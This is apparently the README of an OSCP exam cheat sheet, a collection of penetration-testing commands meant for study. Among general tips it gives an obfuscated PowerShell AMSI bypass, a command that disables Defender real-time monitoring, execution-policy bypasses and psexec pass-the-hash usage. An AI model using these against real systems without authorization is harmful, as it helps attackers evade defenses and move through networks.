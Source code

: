 # OSCP_cheatsheet summary
* [General](#General)
   * [Buffer overflow](bufferoverflow.md)
   * [Metasploit](metasploit.md)
* [Enumeration](enumeration.md)
* [Exploitation](exploitation.md)
* [Privilege Escalation Windows](privesc_windows.md)
* [Privilege Escalation Linux](privesc_linux.md)
* [Post Exploitation](post_exploitation.md)

# General
## Other great cheatsheets
- https://github.com/CountablyInfinite/oscp_cheatsheet
- https://github.com/frizb/MSF-Venom-Cheatsheet/blob/master/README.md

#### Static binaries
- https://github.com/andrew-d/static-binaries
- https://github.com/ernw/static-toolbox/releases

#### Python error
When receiving the error “/usr/bin/env: ‘python\r’: No such file or directory when running an python exploit.
1.	Open the python file in vim
2.	Use the command ```:set ff=unix```
3.	Save the file. ```:wq```

#### SSH key files
ssh key files needs to be permission 600
```
sudo chmod 600 <FILE>
```

#### SSH allow diffie helman
```
ssh <USER>@<TARGET> -oKexAlgorithms=+diffie-hellman-group1-sha1
```

#### RDP commands
```
xfreerdp /d:<DOMAIN> /u:<USERNAME> /v:<TARGET IP> +clipboard
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD>
```

#### Autorecon
https://github.com/DriftSec/AutoRecon-OSCP
```
sudo /home/user/.local/bin/autorecon -o autorecon <HOST> <HOST>
```

## CMD
#### Find string
```
| findstr /I “<FIND STRING>”
```

#### Ignore string
```
| findstr /v “<IGNORE STRING>” 
```

## Powershell
#### Powershell flags
- ```-nop```: (```-noprofile```) which instructs powershell not to load the powershell user profile.
-	```-w hidden```: to avoid creating a window on the user’s desktop
-	```-e```: (```-EncodedCommand```) use base64 encoding

#### Start as admin
```
powershell.exe Start-Process cmd.exe -Verb runAs
```

#### AMSI Bypass
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

#### Disbale AV (Requires local admin)
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

### Powershell execution policy
#### Get execution policy
```
Get-ExecutionPolicy -Scope CurrentUser
```

#### Bypass execution policy flag
```
-ExecutionPolicy Bypass
```

#### Disable execution policy
```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

#### Impacket PSexec impacket
If no LM Hash use an empty one: ```aad3b435b51404eeaad3b435b51404ee```
```
python3 psexec.py -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME>@<TARGET>
python3 psexec.py <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET>
```

## Compiling
#### Compile on linux
```
gcc
```

#### Cross compile exploit code
```
sudo apt install mingw-64
```

#### Compile 32bit Windows
```
i686-w64-mingw32-gcc something.c -o something.exe
```

#### Compile 64bit Windows
```
x86_64-w64-mingw32-gcc something.c -o something.exe
```

#### Compile 32 bit Linux
```
gcc -Wall -o exploit X.c -Wl,--hash-style=both -m32
```
